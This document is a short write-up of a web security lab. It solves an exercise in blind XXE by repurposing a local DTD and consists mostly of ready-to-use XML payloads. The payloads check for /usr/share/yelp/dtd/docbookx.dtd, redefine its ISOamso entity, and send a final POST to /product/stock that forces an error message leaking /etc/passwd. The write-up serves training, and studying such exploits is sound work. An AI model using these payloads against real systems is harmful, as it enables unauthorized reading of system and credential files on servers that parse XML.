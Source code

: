 ### Lab: Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

Systems using the GNOME desktop environment often have a DTD at **/usr/share/yelp/dtd/docbookx.dtd** containing an entity called **ISOamso.**

**Checking file existence ->**

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

**Base payload ->**

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>3</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	<!ENTITY % local_dtd SYSTEM "file:////usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamso '
	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	<stockCheck>
		<productId>3</productId>
		<storeId>1</storeId>
	</stockCheck>
```
